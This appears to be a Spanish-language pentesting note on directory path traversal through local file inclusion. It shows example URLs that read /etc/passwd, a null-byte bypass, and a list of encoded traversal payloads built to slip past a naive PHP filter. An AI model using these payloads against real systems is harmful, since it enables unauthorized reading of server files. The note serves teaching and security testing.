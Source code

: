 # Directory Path Traversal

## Definición

Cuando se tiene en una explotación una posible LFI, (Local File Inclusion), puede ser posible acceder a ficheros de la máquina victima utilizando **Directory Path Traversal**. Un ejemplo es:

Tenemos una ruta del estilo:

http://miservidor.com/files?file=main.php

Y en la ruta física, que es **/var/www/html** existe realmente una página llamada main.php que es la que nos devuelve.

Podemos ahora intentar acceder al fichero /etc/passwd

http://miservidor.com/files?file=/etc/passwd

Y no funciona porque la aplicación tiene configurado que la ruta base sea /var/www/html/ por lo que está intentando cargar /var/www/html//etc/passwd y no existe.

Podemos utilizar entonces técnicas de **Directory Path Traversal**, que viene a ser intentar navegar primero hacia atrás.

http://miservidor.com/files?file=../../../../../../etc/passwd

Y esto es muy posible que funcione.

## NULL byte

A veces nos podemos encontrar con URLs de este estilo:

http://miservidor.com/files?file=main

y lo que realmente está en /var/www/html es main.php. Es la aplicación la que añade el .php.


Si intentamos acceder a:

http://miservidor.com/files?file=../../../../../../etc/passwd

La aplicación estaría buscando este fichero:

/var/www/html/../../../../../../etc/passwd.php

Para evitar esto se utiliza el **byte null** en codificación web que es **%00**. Añadimos al final este byte y funcionaria.

http://miservidor.com/files?file=../../../../../../etc/passwd%00

## Protecciones Directory Path Traversal

Muchas aplicaciones implementan protecciones de este tipo:

```php
$_GET['page'] = str_replace( '../', '', $_GET['page'] );
```

Existen formas alternativas de escribir **../../../../../../etc/passwd** de forma que puedan escapar al control. Se basan en utilizar códigos codificados, (Web Encoding). Se listan a continuación las mas frecuentes.

../../../../../../etc/

....//....//....//....//....//....//etc/

..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd

%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd

%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc/passwd

%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215%uff0e%uff0e%u2215etc%u2215passwd

%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc/passwd

%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216%uff0e%uff0e%u2216etc%u2216passwd

%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc/passwd

%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%af%c0%ae%c0%ae%c0%afetc%c0%afpasswd